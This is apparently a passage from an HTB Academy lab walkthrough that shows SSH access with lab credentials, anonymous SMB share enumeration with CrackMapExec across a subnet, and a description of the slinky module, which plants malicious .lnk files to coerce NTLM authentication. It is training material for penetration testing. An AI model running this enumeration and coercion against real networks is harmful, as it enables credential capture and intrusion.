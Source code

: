 ### Question 1

#### "Enumerate the network to locate an anonymously accessible shared folder with READ and WRITE access named 'smb'. Place a file in it to force users to connect to your attack machine. Then, using Responder in Analyze mode, submit the NTLMv2-SSP Username (without the domain) of the authentication request to the poisoned response sent to 172.16.117.50."

After spawning the target machine, students will connect via SSH with the provided credentials `htb-student:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh htb-student@STMIP
```

```shell-session
┌─[eu-academy-1]─[10.10.14.196]─[htb-ac-8414@htb-7admwdxcua]─[~]
└──╼ [★]$ ssh htb-student@10.129.100.121
The authenticity of host '10.129.100.121 (10.129.100.121)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.100.121' (ECDSA) to the list of known hosts.
htb-student@10.129.100.121's password: HTB_@cademy_stdnt!
<SNIP>
  
Last login: Wed Aug 30 16:24:31 2023 from 10.10.14.33 
htb-student@ubuntu:~$
```

Right after connecting to the target machine, students will use `CrackMapExec` to find an SMB share accessible by an anonymous user on `172.16.117.3` using its `--shares` option. This will enumerate the accessible shares in the specified subnet and the respective access to these shares. Subsequently, students will see that they have `READ` and `WRITE` permissions on the `smb` share.

Code: shell

```shell
crackmapexec smb 172.16.117.0/24 -u anonymous -p '' --shares
```

```shell-session
htb-student@ubuntu:~: crackmapexec smb 172.16.117.0/24 -u anonymous -p '' --shares

<SNIP>                     
SMB         172.16.117.3    445    DC01             smb             READ,WRITE      
SMB         172.16.117.3    445    DC01             SYSVOL                          Logon server share 
SMB         172.16.117.3    445    DC01             Testing         READ,WRITE      
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

They will use `CrackMapExec` and its `slinky` module that creates malicious `.lnk` files and automatically places them in accessible shares and the malicious file will be used to coerce an authentication to a host the students have specified. The `slinky` module requires two options `SERVER`, requiring the IP address of the machine to which the coerce authentication will happen, and `NAME`, requiring the name of the file that will be generated.
